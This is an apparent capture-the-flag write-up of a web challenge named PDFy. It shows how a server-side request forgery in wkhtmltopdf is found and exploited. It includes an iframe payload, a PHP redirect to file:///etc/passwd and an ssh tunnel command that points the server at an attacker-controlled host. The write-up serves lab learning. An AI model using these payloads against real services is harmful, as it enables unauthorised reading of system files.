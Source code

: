 # TL;DR

1. Say that input was reaching out to a website and tried to input "localhost", which produced an error
2. Saw the error came from using the wkhtmltopdf application and looked up vulns for it
3. Found a vuln and a POC for it and tried to get a PDF
4. Did not get a PDF and after a few attempts tried to use a command to get a temp domain name for the server to reach out to with a different payload
5. After giving the temp domain in the form I got a PDF back with the flag

# Detailed Writeup

When first getting to the site we this homepage:

![alt text](https://github.com/GabeALopez/CTF-Writeups/blob/main/Images/HTB/PDFy/homepage.png)

The site creates PDFs of sites that is given in the form. I tried to spin up a python server and tried to see if the site would reach back. But the site just hanged without any hits from the server

So I tried to put in "http://localhost" and when I did I got this error from the server:

![alt text](https://github.com/GabeALopez/CTF-Writeups/blob/main/Images/HTB/PDFy/error.png)

wkhtmltopdf, this is interesting as the server says a command failed when it tried to use this application. After this, I did a quick google search for any wkhtmltopdf vulnerabilities and I happen to land on page explaining that wkhtmltopdf has a known SSRF vulnerability. 

After this, I tried to look to see if there were any POC's and I happen to land on exploit-notes.hdks.org which had section dedicated to testing for this vulnerability in wkhtmltopdf:

![alt text](https://github.com/GabeALopez/CTF-Writeups/blob/main/Images/HTB/PDFy/explanation.png)

I followed these steps. Creating the malicious php file, starting the php server, and tried to inject the payload into the form:

**Example Payload**
```
<iframe src=http://<Your IP address here>:<Port of server>/test.php?x=/etc/passwd width=1000px height=1000px></iframe>
```

I tried to just injecting and it got an error message but did get a hit on my server:

![alt text](https://github.com/GabeALopez/CTF-Writeups/blob/main/Images/HTB/PDFy/payload.png)
![alt text](https://github.com/GabeALopez/CTF-Writeups/blob/main/Images/HTB/PDFy/server.png)

I thought maybe there was something wrong with the php file that I made as I was getting hits on my server. I tried changing the payload to a more simple version than the one in the website that did not take command arguments:

```
<?php
  header("Location: file:///etc/passwd");
?>
```

I got something different but not a PDF so I thought maybe I need to have a domain name since it google.com and github.com. So I used this command to set up a temporary domain: 

```
ssh -R 80:localhost:8000 nokey@localhost.run
```

I sent the payload again with new domain name copied from the above command and once again I did not get a PDF.

**Payload Used**
```
<iframe src=http://<Temp domain name>:8000/test2.php width=1000px height=1000px></iframe>
```

So I tried to just give just the full url of the temp domain name and I got a PDF with the flag: 

![alt text](https://github.com/GabeALopez/CTF-Writeups/blob/main/Images/HTB/PDFy/flag.png)

I come to later find out from other experiments that site was blocking input and found that input that was given had to start with "http://" or "https://"
